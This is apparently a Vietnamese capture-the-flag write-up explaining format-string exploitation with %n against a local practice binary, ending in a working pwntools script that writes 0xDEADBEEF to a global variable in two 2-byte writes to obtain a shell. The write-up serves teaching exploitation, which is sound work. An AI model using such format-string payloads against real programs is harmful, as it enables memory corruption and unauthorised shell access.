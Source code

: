 # Format String - Ghi dữ liệu bằng %n

Ta đã biết qua các format string **%p và %s**, đây là loại cuối cùng mà ta thường dùng khi khai thác: **%n**. Các format string ở các video trước được dùng để leak dữ liệu nhưng với **%n**, **ta có thể dùng nó để ghi dữ liệu ở bất cứ nơi đâu miễn sao ta biết được địa chỉ cần ghi và địa chỉ đó phải nằm trên stack**

**ida:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/059b99b0-5633-406e-8490-19bbd0b0e867)


bài này nhìn phát biết lỗi fmtstr rồi

để lấy được shell ta cần địa chỉ của biến **check** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/3e216cb6-3471-4265-9441-34c4b5ca2dd4)


**có được địa chỉ của biến check ta cần gán biến check bằng 0xDEADBEEFLL** 

**phân tích :** 
- mục tiêu của ta là làm giá trị chỉ biến check là 0xDEADBEEFLL, biến check thì ko nằm trên stack thì nên ta cần gán địa chỉ của check vào trong stack
- %p và %s đều có tác dụng ra in và leak ra dữ liệu trong stack hoặc con trỏ nên nếu ta dùng %p hay %s ở bài này là điều ko thể
- hướng duy nhất ta có khai thác là sử dụng %n, vì ta có thể dùng nó để ghi dữ liệu ở bất cứ nơi đâu miễn sao ta biết được địa chỉ cần ghi và địa chỉ đó phải nằm trên stack

**ở bài này ta cần %n 2 lần vì 0xDEADBEEF 4byte là rất lớn, nếu in ra 1 lần thì chương trình sẽ bị lỗi ko nhận được, nên ta sẽ %n 2 lần , lần 1 in 0xBEEF, lần 2 in 0xDEAD, mỗi lần 2byte.**

bonus:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/b602d563-de3e-498d-8637-a4b0683ecbdb)


(trong script có giải thích nha)

**script:**

```
from pwn import *

p = process('./fmtstr5')
exe = ELF('./fmtstr5')

check_addr = 0x404090

gdb.attach(p, gdbscript = '''
b*main+112
c
'''
)

input()


payload = f'%{0xbeef}c%10$n'.encode() #in lần 1 0xbeef
# vì lần đầu ta đã in 0xbeef rồi, nếu lần 2 ta in 0xdead thì %n nó hiểu là sẽ cộng dồn 0xbeef + 0xdead và ko đúng ta cần
# nên lần 2 ta sẽ in (0xdead - 0xbeef) = 0x1fbe 
payload += f'%{0xdead - 0xbeef}c%11$n'.encode()  #in lần 2 0xdead
payload = payload.ljust(0x20, b'P') #nên dùng ljust vì trong quá trình debug ta sẽ thay đổi payload nhiều lần, dùng ljust giúp ta cố định được check_addr tại 1 stack cố định
payload += p64(check_addr) #2 byte đầu 0xbeef
payload += p64(check_addr + 2) #2 byte sau 0xdead


p.sendlineafter(b'string: ', payload)

p.interactive()
```
